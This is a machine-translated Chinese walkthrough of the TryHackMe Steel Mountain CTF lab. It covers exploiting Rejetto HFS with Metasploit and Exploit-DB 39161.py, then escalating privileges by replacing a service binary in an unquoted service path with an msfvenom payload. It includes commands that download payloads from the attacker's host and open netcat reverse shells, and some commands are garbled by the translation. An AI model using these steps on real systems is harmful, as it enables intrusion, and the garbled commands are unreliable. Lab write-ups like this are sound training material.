# Windows PrivEsc 或者如何破解 TryHackMe 钢山机。

> 原文：<https://infosecwriteups.com/windows-privesc-or-how-to-crack-the-tryhackme-steel-mountain-machine-fdd7dc19ada3?source=collection_archive---------0----------------------->

## [TryHackMe 写文章](https://medium.com/@vadimpolovnikov)

## Metasploit、Exploit-DB、PowerShell 等等。

从[检索到网飞有什么](https://www.whats-on-netflix.com/news/are-seasons-1-to-4-of-mr-robot-on-netflix/)

你好啊。这里有一个关于 TryHackMe Steel Mountain 机器的教育演练。如果你还在纠结，或者只是想看看解决挑战的另一种方法，那么你绝对是在正确的地方！事不宜迟，让我们开始吧。

## [任务 1] —简介

首先，我们需要进行端口扫描！因此，让我们启动一些 Nmap 扫描，并确定潜在的攻击媒介。

我通常从所谓的(主要是我自己) ***基础*** 和 ***vuln*** Nmap 扫描开始:

> **Nmap-sC-sV-O $ IP-oN basic _ scan . Nmap**
> 
> **Nmap-script = vuln $ IP-oN vuln _ scan . Nmap**

这两者的一个小分类:

**基本扫描**。在 *-oN* 之前的所有开关都可以替换为单个 *-A* 开关(主动式),因为它组合了所有这些开关并增加了 traceroute。最终，我们将扫描目标的操作系统和软件版本以及默认的 NSE 脚本。

**外阴扫描**。这个很简单。它扫描系统，收集属于 *vuln* 类别的 NSE 脚本。这是值得的，因为有时它可能会揭示一些有趣的东西。剧透警报！这次不会。

这里有一点美味的鸡块。您是否注意到两个命令中都有$IP？如果您总是在 Kali VM 和 TryHackMe 窗口之间来回切换以检查 IP 地址，请尝试以下命令:

> **出口 IP =<X . X . X .>**

这将在系统中创建一个环境变量，您不需要一次又一次地重新输入 IP 地址(只需使用$IP 代替)。另一个技巧是将目标 IP 地址放在*主机*文件中。

够了，让我们回到 Nmap 扫描结果。



我知道什么立刻引起了你的注意。不要犹豫，跳进那个网站！

我打赌这家伙那个月干得相当不错！但是他叫什么名字？*您检查过图像名称了吗？点击右键，查看图片，你会得到第一个答案。*

## [任务 2] —初始访问

我相信在我们的朋友 Nmap 的帮助下，你已经回答了前几个问题。继续下一个。

为了找到 CVE 号码，只需谷歌 HTTP 文件服务器的版本，毫无疑问，你会得到你想要的。

> 记住，在我们的运动中，谷歌就是一切！你在学习的过程中，没什么好羞愧的。我经常看到我最喜欢的黑客在最重要的工具之一——谷歌的帮助下获得另一个外壳。

现在有趣的事情来了！唤醒野兽，Metasploit，让我们获得对目标的初始访问。

为了找到漏洞，只需在 Metasploit 控制台中键入 ***search rejetto*** 。只有一个漏洞可以利用:



太棒了。选择模块的常见选项是简单地在 ***使用*** 关键字后键入(或键入)模块名称。然而，有一个甜蜜的简短替代物——***使用<模块>*** 。

在选择模块之后，知道它期望从我们这里得到什么参数是很重要的。最好的方法是发出 ***show options*** 命令，并查找那些将 *Required* filed 设置为 *yes* 的选项。



当一切都 ***设定好*** 后，我们就准备点击那个 ***利用*** 的按钮并得到外壳。

获得 Meterpreter shell 后，您可以使用基本的 Linux 命令浏览目录，并在 Bill 的桌面上找到一个有趣的文件。哎呀！

> 请注意，如果您发出一个简单的命令，如 **whoami** 并想知道为什么它不起作用，请查看 **help** 命令。花点时间观察输出，并为 Meterpreter 的强大做好准备——它不是每台计算机上都有的常规外壳。

## [任务 3] —权限提升

现在真的越来越有趣了！TryHackMe 很好地解释了如何获得用于枚举 Windows 系统的 PowerUp.ps1 脚本，但是我在安装它时遇到了一些困难。因此，万一有什么困难，我愿意帮助你。

点击[Task 3]部分的链接，您将进入 GitHub 页面，这里有 PowerUp.ps1 的源代码。



只需转到左上角的 PowerSploit 目录，然后点击绿色的 ***代码*** 按钮复制链接即可。



对于这个特殊的挑战，你只需要启动脚本，但你会继续黑客，对不对？所以剩下的脚本可能会在你未来的冒险中派上用场。只需使用 ***git clone*** 命令*后跟你复制的链接*，瞧！一整套脚本在你的黑客口袋里，随时准备摇滚。



在目标机器枚举之前，我们需要上传 PowerUp 脚本并将 PowerShell 模块加载到 Meterpreter。下面的屏幕截图描述了该序列。



现在，我们准备列举目标。在 Meterpreter 中键入 ***powershell_shell*** 启动 PowerShell 模块，执行 ***PowerUp.ps1*** 脚本和***Invoke-all checks***。TryHackMe 建议寻找带有 [*未引用服务路径*](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) 的服务(我非常推荐你访问[苏米特·维尔马](https://medium.com/u/711dc14dea6c?source=post_page-----fdd7dc19ada3--------------------------------)撰写的这篇解释未引用服务路径漏洞的中型帖子)。简而言之:

> 当可执行文件的路径包含空格(/Path To/The Executable/File.exe)并且没有用引号括起来时，就会出现未加引号的服务路径漏洞，因此 Windows 系统会将空格之前的每个参数解释为可执行文件(Path.exe，The.exe，File.exe ),直到找到实际的文件。



在上面的截图中，ASCService.exe 的 ***是位于未引用的服务路径中的可执行文件。此外，它在 *LocalSystem* 特权下运行，这是我们在 Windows 系统中可以获得的最高特权。因此，我们可以利用这个优势，用我们自己的由 [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) 工具生成的有效载荷替换 ASCService.exe。***



我们刚刚做了什么？嗯…让我们仔细看看。

> ***-p*** 指定有效载荷(***--list =有效载荷*** 查看全部)
> 
> ***lhost*** —本地主机的 IP 地址
> 
> ***lport*** —本地主机将监听的端口号
> 
> ***-e*** 决定防火墙规避的编码器(***--list =编码器*** )
> 
> ***-f*** 是可执行文件的文件类型

下一步是将我们的文件上传到目标服务器，并更改合法可执行文件的内容。是时候学习一些 PowerShell 命令了！

**首先是**，我们需要上传我们的*。两个命令将为我们做这件事。*

> *your-local-machine**#*python-m simple http server*8888***
> 
> *目标-机器-PS**#*Invoke-WebRequest-Uri*" http://x . x . x:8888 "*-Outfile*ASCService.exe***

**

*攻击机器上 Python 的简单 HTTP 服务器*

**

*可执行文件成功下载到目标服务器*

***第二个**，在替换合法的 ASCService.exe 之前，必须停止 AdvancedSystemCareService9，因为它依赖于我们将要更改的可执行文件。只需在 PowerShell 中发出***Stop-Service advancedsystemcareservice 9***命令。*

*最后但同样重要的是，让我们把好的 ASCService.exe 换成坏的 ASCService.exe。*

1.  *对恶意 ASCService.exe 文件执行 ***Copy-Item*** 命令，更改合法文件。*
2.  *使用 ***Set-Location*** 命令在高级 SystemCare 目录中找到自己。*
3.  *检查全新 ASCService.exe 的长度(与我们用 Msfvenom 制作的相比)。*

**

*在开始我们的服务之前，不要忘记激活本地机器上的监听器( ***nc -lvnp 6666*** )。*

*现在，我们已经为最后一步做好了一切准备！让我们在 Windows 命令 shell 中使用[服务控制](https://docs.microsoft.com/en-us/windows/win32/services/starting-services-on-demand)实用程序启动服务——只需键入***sc start advancedsystemcareservice 9***——然后等待反向 shell 生成。*

**

*瞧啊。*

*现在，最简单的部分！浏览一下系统目录，别忘了看看管理员桌面。*

## *[任务 4] —不使用 Metasploit 的访问和上报*

*要在没有 Metasploit 的情况下访问系统，我们需要对 Exploit-DB 中的 Rejetto 文件服务器漏洞进行一些研究。您可以在互联网上探索它，或者使用 ***searchsploit*** 命令使用离线 Exploit-DB 数据库。*

******

***请注意 39161.py 漏洞***

***您可以随时使用 ***searchsploit -x <漏洞名称>*** 命令(searchsploit -x 39161.py)来探索每个漏洞的内容。***

***阅读作者的描述，浏览代码，试着理解它是做什么的。简而言之，我们将运行该漏洞两次:***

*****第一阶段**。该漏洞将在本地机器文件系统中查找 nc.exe 文件，并将其上传到目标机器。***

*****第二阶段**。该漏洞将在目标服务器上执行 nc.exe，迫使其连接到我们的本地主机。***

***让我们为我们的攻击成功做好准备。***

*****首先**，我们需要将 39161.py 漏洞复制到我们从/usr/share/exploit db/exploits/windows/remote/39161 . py 中选择的目录。***

*****第二个**，作者建议我们更改代码中的 *ip_addrs* 和 *local_por* t 变量，这样我们将在第二个开发阶段把服务器连接回我们的机器。***

*****第三**，在安装了 nc.exe 的目录下设置 *Python SimpleHTTPServer 监听端口 80* ，这样漏洞会检索可执行文件并上传到目标。***

*****第四个**，用 *local_port 变量值*的监听端口激活 NetCat 监听器。***

***运行一次，然后重复。下面的截图将展示每个步骤的预期结果。***

******

***第一次运行用于 nc.exe 上传，第二次运行用于反向 shell 生成***

******

***成功的 nc.exe 检索***

******

***目标服务器反向外壳连接***

***我们进去了。现在，到目前为止，唯一剩下的事情就是像我们之前做的那样，使用*powershell-c*[*Invoke-WebRequest*](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7)命令将 [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) 脚本下载到目标服务器，并扫描系统的潜在漏洞。***

***非常感谢你花时间和我在一起，请继续关注。***

***您可能还会对另一篇 TryHackMe 文章感兴趣。***

*** [## 试试看机器人先生。

### 找到进入定制机器人先生机器的方法。

medium.com](https://medium.com/@vadimpolovnikov/tryhackme-mr-robot-machine-c33476f12c48)  [## TryHackMe 基本测试演练。

### 关于黑客的教育演练。

medium.com](https://medium.com/@vadimpolovnikov/tryhackme-basic-pentesting-walkthrough-7817c719fd04) ***